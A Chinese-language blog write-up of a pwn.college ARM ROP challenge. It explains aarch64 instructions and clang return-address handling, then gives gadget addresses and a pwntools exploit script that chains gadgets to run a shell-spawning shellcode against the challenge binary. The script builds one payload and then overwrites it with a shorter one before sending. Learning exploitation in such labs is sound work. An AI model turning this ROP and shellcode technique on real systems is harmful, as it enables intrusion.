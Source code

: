 ```yaml
---
title: pwn-college的一道arm rop题
date: 2024-10-13
categories: arm学习
tag: 研究记录
---
```

[题目附件](pwn)
# 前言
最近是在[Rocket](https://rocketmadev.github.io/)安利下去看了[pwncollege](https://pwn.college/)这个网站，然后感觉还不错，armdojo已经快刷完了，就差一题！！！但是最后一题好难啊，看了好几个小时没思路。
# arm中rop所需要了解的知识
首先arm的rop和x86中差了非常多，所以这里介绍一下差别，顺便带一下道场中别的知识包括汇编指令和在栈溢出学习中发现的不同。
## aarch64汇编指令
1. aarch64是arm的64位的叫法，就像x86-64和x86一样。
2. arm中的寄存器有整整30个！
其中函数传参时前八个参数使用X0-X7，后续参数放在栈上。
而syscall时前八个参数依然是X0-X7
以及很重要的X30寄存器也就是LR寄存器，其作为函数返回地址保存的寄存器，函数返回将会无条件跳转至X30。
3. arm架构下，所有的指令是4个字节定长的！！其带来了很多神奇的与x86不同的特性，按我的话说，成也定长，败也定长。
    1.  细说一下，比如"mov rax, 0x2024202520262027"这个指令可以直接在x86中一步完成，
        但是在arm中，收到指令定长为4的限制，无论如何不可能出现超过两个字节的立即数。
        arm的解决办法如下
        ```asm
        MOV  X0 0x2027
        MOVK X0 0x2026, LSL #16
        MOVK X0 0x2025, LSL #32
        MOVK X0 0x2024, LSL #48
        ```
        通过位移的方式赋值，最多一次赋值两个字节。
    2.  然后是add,sub,smull,sdiv指令等等，其支持三个操作数的特性使其比x86更加灵活。
        ```asm
        ADD X0, X1, X2
        ```    
        就是`X0 = X1 + x2`的功能，可以发现其在x86中是完全不可能一条指令实现的。
        这只是最简单的，更详细的可以在[arm开发者手册通常指令](https://developer.arm.com/documentation/dui0802/b/A64-General-Instructions/A64-general-instructions-in-alphabetical-order)[arm开发者手册数据转换指令][def]中找到更详细的内容
    3.  还有很重要的`LDR`和`LDP`指令，是从地址中加载数据到寄存器。
        ```asm
        MOV X3, sp
        LDR X0, [X3]
        ```
        LDR是`load addr`加载地址，LDP是`load addr pair`成对加载地址
        比如这条指令从[X3+8]的位置加载出来0x10的内存，前0x8的内存加载给X1,后0x8的内存加载给X2。
        ```asm
        LDP X1, X2, [X3, #0x8]
        ```
        与`LDR`和`LDP`对应的是`STR`和`STP`，其功能显然就是反过来，所以懒得说了。
    4.  arm有三种索引方式，`preindex``postindex``offset`，其原理都是基于一个基址寄存器加上一个偏移取地址。
        1. 比如`LDR X0, [SP , #0x90]`就是offset取地址，其不改变SP的值直接从[SP+0x90]的位置取出0x8大小的内存赋值给X0。
        2. `LDR X0, [SP, #0x90]!`则是先对SP+=0x90，再从[SP]的地址取出0x8大小的内存赋值给X0
        3. `LDR X0, [SP], #0x90`则是先从SP取出内存赋值，再使得SP+=0x90
        可以发现其功能比x86强大很多，也许是因为固定四个字节的指令长度强迫其必须在一条指令中实现更多功能，否则如果按照x86的设计逻辑，代码段的长度会长非常多。
        不过有一点非常可惜的是arm中没有直接的push和pop指令，而是通过LDR来实现push和pop等对于栈的操作。
接下来具体的到题目中分析

# ARM-ROP
arm中函数返回地址的取值并非x86中直接从栈上取，而且我目前了解到clang和gcc编译的arm程序的返回地址取值都有着一定区别。这题是clang编译的，所以首先说clang编译的程序机制。

`RET`指令在x86中意味着`pop rip`，而在arm中意味着`B X30`，B是arm的无条件跳转指令，也就是说每当arm函数返回时，其无条件跳转至X30的地址。

与X30一对的是X29，X29类似于一个rbp，作为辅助来维持栈的结构，但是很少被真正用来索引，我也没有见过像x86中的`mov rsp, rbp`这种可以利用rbp的情况发生，甚至连函数内部的变量索引都很少用到X29。

每当新函数被调用，就会将X29，X30的值保存在栈上，然后在返回时取出并且跳转至X30，看似栈溢出劫持程序流的思路依然可行对吧，但是实际上这比x86中难了一个档。

![clang-ret](clang_ret.png)

图中可以看到，程序从[SP+0x50]的位置加载出X29和X30，当我们在challenge函数中存在栈溢出时，对于challenge函数的返回地址劫持就成功了。

可以对比一下x86和arm的区别
```asm
mov rsp, rbp
ret
```
x86固定从栈顶取返回地址。而arm的返回地址固定从SP+多少多少取，而这个值就取决于函数栈帧大小，所以从sp到sp+多少多少这段栈帧都必须被覆盖才能写到下一个函数的返回地址。
而且，arm的`RET`指令还依赖于`LDP X29, X30, [SP],#0x20`，必须由该指令加载X30后RET才能正确返回。
而且，arm还是定长指令，不存在x86中可以通过错位构造一些gadget的情况。
还有就是，x86中经常出现函数末尾pop来恢复寄存器然后返回，但是在arm中我经常只能看到对于X19和X20的恢复，也许是因为arm的寄存器太多了，太阔了吧QAQ

说了这么多，还是上图片吧。这样讲就很明显了，由于
![stack](stack.png)

# 程序分析
arm道场系列里第一个module是熟悉一下aarch64的各种指令，手写各种指令做一下简单操作。第二个module是rop，所以贯穿始终的都是超长超大的栈溢出。

![main_ida](main_ida.png)
main里面几乎没有任何内容，然后是challenge函数。
![challenge](challenge.png)
直接给了一个栈地址，然后给了超大栈溢出。
还有就是该函数是静态编译的，所以有特别多gadget。

由于上面说到的种种困难，我在寻找gadget时有点卡住了，不过最后，让我找到了非常好用的两个gadget
```
0x43e980 : ldp x19, x20, [sp, #0x10] ; ldp x21, x22, [sp, #0x20] ; ldp x23, x24, [sp, #0x30] ; ldp x25, x26, [sp, #0x40] ; ldp x27, x28, [sp, #0x50] ; ldp x29, x30, [sp], #0x130 ; ret
# x19-x30

0x42f278 : ldr x3, [x21, #0x38] ; mov x1, x23 ; mov x2, x20 ; mov x0, x19 ; blr x3
```
单单通过栈就能控制x19-x30的寄存器，然后再控制x0，x1，x2，x3，通过x3继续控制程序流，不得不说，还好这题给了栈的值，要不就没法通过x21控制x3了。
后面就没有什么特别重要的了，可以把[附件](pwn)下下来自己试试就好了。
## exp
```python
from pwn import *
import os
os.environ['QEMU_LD_PREFIX'] = '/usr/aarch64-linux-gnu'
context(terminal = ['tmux','splitw','-h'], arch = "aarch64", log_level = "debug")
io = gdb.debug('./pwn')

io.recvuntil(b'at: ')
stack = int(io.recv(0xe), 16)
print(hex(stack))

shellcode = asm(shellcraft.aarch64.sh())

payload = b''
payload += b'/flag\x00' + p64(0x43E568) # x3
payload += b'\x00'*0x29 + p64(0x0) # x29
payload += p64(0x43e980) # x30
payload += p64(0x0) + p64(0x42f278) # x29, x30
payload += p64((int(stack/0x1000)*0x1000)) + p64(0x7) # x19(x0), x20(x2)
payload += p64(stack + 6 - 0x38) + p64(0x0) # x21, x22
payload += p64(0x1000) + p64(0x0) # x23(x1), x24
payload += p64(0x0) + p64(0x0) # x25, x26
payload += p64(0x0) + p64(0x0) # x27, x28
payload += shellcode + b'\x00'*(0xD0-len(shellcode))
payload += p64(0x0) + p64(stack + 0xa7)

payload = b''
payload += b'/flag\x00' + p64(0x0) # x3
payload += b'\x00'*0x29 + p64(0x0) # x29
payload += p64(0x401878) # x30
io.send(payload)

io.interactive()
```